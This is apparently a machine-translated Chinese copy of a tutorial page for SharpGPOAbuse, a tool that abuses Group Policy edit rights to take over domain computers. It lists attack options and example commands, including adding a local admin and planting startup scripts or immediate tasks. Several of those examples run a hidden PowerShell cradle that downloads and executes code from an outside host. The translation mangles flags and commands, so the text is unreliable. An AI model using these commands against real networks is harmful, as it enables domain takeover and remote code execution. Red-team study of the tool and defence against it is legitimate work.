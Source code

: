 # SharpGPOAbuse:利用用户对组策略对象(GPO)的编辑权限的工具

> 原文：<https://kalilinuxtutorials.com/sharpgpoabuse/>

[![SharpGPOAbuse : Tool To Take Advantage Of A User’s Edit Rights On A Group Policy Object (GPO)](img/c1f00f6974f6ba1aa6d4196ca766b6a7.png "SharpGPOAbuse : Tool To Take Advantage Of A User’s Edit Rights On A Group Policy Object (GPO)")](https://1.bp.blogspot.com/-atr0fF1EIwc/YG94aERnLUI/AAAAAAAAIsE/cjPLzFz35H4ijKBLEbgwoBU0IV0DtrAMwCLcBGAsYHQ/s728/SharpGPOAbuse%25281%2529.png)

**shargpoabuse**是一个用 C#编写的. NET 应用程序，可以用来利用用户对组策略对象(GPO)的编辑权限来危害由该 GPO 控制的对象。

更多细节可以在下面的博客中找到:[https://labs.mwrinfosecurity.com/tools/sharpgpoabuse](https://labs.mwrinfosecurity.com/tools/sharpgpoabuse)

**编译指令**

确保正确安装了必要的 NuGet 包，并在 Visual Studio 中简单地构建项目。

**用途**

**用法:SharpGPOAbuse.exe<攻击类型> <攻击选项>**

**攻击类型**

目前 SharpGPOAbuse 支持以下选项:

| [计]选项 | 描述 |
| --- | --- |
| [–AddUserRights](https://github.com/FSecureLABS/SharpGPOAbuse#adding-user-rights) | 向用户添加权限 |
| [–addlocalaadmin](https://github.com/FSecureLABS/SharpGPOAbuse#adding-a-local-admin) | 将用户添加到本地管理员组 |
| [–addcomputerscript](https://github.com/FSecureLABS/SharpGPOAbuse#configuring-a-user-or-computer-logon-script) | 添加新的计算机启动脚本 |
| [–AddUserScript](https://github.com/FSecureLABS/SharpGPOAbuse#configuring-a-user-or-computer-logon-script) | 配置用户登录脚本 |
| [–添加计算机任务](https://github.com/FSecureLABS/SharpGPOAbuse#configuring-a-computer-or-user-immediate-task) | 配置计算机即时任务 |
| [–AddUserTask](https://github.com/FSecureLABS/SharpGPOAbuse#configuring-a-computer-or-user-immediate-task) | 向用户添加即时任务 |

**攻击选项**

*   **添加用户权限**

**添加新用户权限所需的选项:
–user rights
设置要添加给用户的新权限。此选项区分大小写，必须使用逗号分隔的列表。
–user account
设置添加新权限的账户。
–GPO name
易受攻击的 GPO 的名称。

例如:
SharpGPOAbuse.exe–adduser rights–user rights " SeTakeOwnershipPrivilege，SeRemoteInteractiveLogonRight "-user account bob . Smith–GPOName " Vulnerable GPO "**

*   **添加本地管理员**

**添加新的本地管理员所需的选项:
–user account
设置要添加到本地管理员中的帐户名称。
–GPOName
易受攻击的 GPO 的名称。

示例:
SharpGPOAbuse.exe–addlocalaadmin–user account bob . Smith–GPOName“易受攻击的 GPO”**

*   **配置用户或计算机登录脚本**

添加新用户或计算机启动脚本所需的选项:
–script name
设置新启动脚本的名称。
–script contents
设置新启动脚本的内容。
–GPOName
易受攻击的 GPO 的名称。

示例:
SharpGPOAbuse.exe–AddUserScript–script name startup script . bat–script contents " powershell . exe-nop-w hidden-c \ " IEX((new-object net . webclient)。download string(' http://10 . 1 . 1 . 10:80/a ')\ " "–GPO name "易受攻击的 GPO "

如果希望仅在受易受攻击的 GPO 控制的特定用户或计算机上运行恶意脚本，可以在恶意脚本中添加 If 语句:

SharpGPOAbuse.exe–AddUserScript–script name startup script . bat–script contents " if % username % = = powershell.exe-nop-w hidden-c \ " IEX((new-object net . webclient)。download string(' http://10 . 1 . 1 . 10:80/a ')\ " "–GPO name "易受攻击的 GPO "

*   **配置计算机或用户即时任务**

**选项需要添加一个新的计算机或用户即时任务:**

–TaskName
设置新计算机任务的名称。
–作者
设置新任务的作者(使用阿达账号)。
–命令
要执行的命令。
–参数
传递给命令的参数。
–GPO name
易受攻击的 GPO 的名称。

**附加用户任务选项:**

–filter enabled
为用户即时任务启用目标过滤。
–目标用户名
目标用户。恶意任务将只在指定用户上运行。应该是目标用户的 SID 格式\
–TargetUserSID
。

**附加计算机任务选项:**
–filter enabled
为计算机即时任务启用目标过滤。
–TargetDnsName
目标计算机的 DNS 名称。恶意任务将只在指定的主机上运行。

**举例:**
SharpGPOAbuse.exe–AddComputerTask–TaskName“更新”-作者域\管理员–命令“cmd . exe”-参数“/c powershell.exe-nop-w hidden-c \ " IEX((new-object net . webclient)。download string(' http://10 . 1 . 1 . 10:80/a ')\ " "–GPO name "易受攻击的 GPO "

如果您希望仅在受易受攻击的 GPO 控制的特定用户或计算机上运行恶意任务，您可以使用类似于以下内容的内容:

SharpGPOAbuse.exe–AddComputerTask–TaskName " Update "–Author DOMAIN \ Admin–Command " cmd . exe "–Arguments "/c powershell.exe-nop-w hidden-c \ " IEX((new-object net . webclient)。download string(' http://10 . 1 . 1 . 10:80/a ')\ " "–GPO name " Vulnerable GPO "-filter enabled–TargetDnsName target.domain.com

**附加选项**

| [计]选项 | 描述 |
| --- | --- |
| –域控制器 | 设置目标域控制器 |
| –域 | 设置目标域 |
| –力 | 如果需要，覆盖现有文件 |

[**Download**](https://github.com/FSecureLABS/SharpGPOAbuse)